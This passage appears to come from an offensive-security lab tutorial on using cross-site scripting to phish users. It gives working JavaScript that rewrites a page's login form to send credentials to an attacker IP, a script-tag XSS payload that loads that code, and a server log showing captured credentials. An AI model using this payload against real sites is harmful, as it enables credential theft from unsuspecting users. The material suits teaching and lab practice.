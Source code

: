 We can create a script that fetches the `login` page, replaces the current page's HTML with the fetched content, and then updates the first form's action URL and method.

{% code title="xssPhishing.js" %}
```javascript
// fetch the content of the login page and access the response using 'then'
fetch("login").then(res => res.text().then(data => {
        // replace the current HTML content with the fetched HTML content
        document.getElementsByTagName("html")[0].innerHTML = data
        // update the action attribute to point to the malicious server
        document.getElementsByTagName("form")[0].action = "http://192.168.45.214"
        // update the method attribute from POST to GET
        document.getElementsByTagName("form")[0].method = "get"
}))
```
{% endcode %}

```javascript
// XSS payload
<script src='http://192.168.45.214/xssPhishing.js'></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 07:42:32] "GET /xssPhishing.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 07:42:41] "GET /?username=gullible&password=IMaybeGullibleButMyPasswordsAreStrong HTTP/1.1" 200 -
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_phising_2.png" alt=""><figcaption><p>Figure 4: Exfiltrating user credentials via a phishing attack.</p></figcaption></figure>

## Phishing Users (2)

This time the application does not have its own login page, so we will have to create one and redirect the target user to it. We can find boilerplate HTML login form code, such as [this](https://www.w3schools.com/howto/howto_css_login_form.asp), and remove the unecessary parts for simplicity. We will need to change the `action` and `method` atrributes of the `form` element so that it sends a `GET` request to our malicious server.
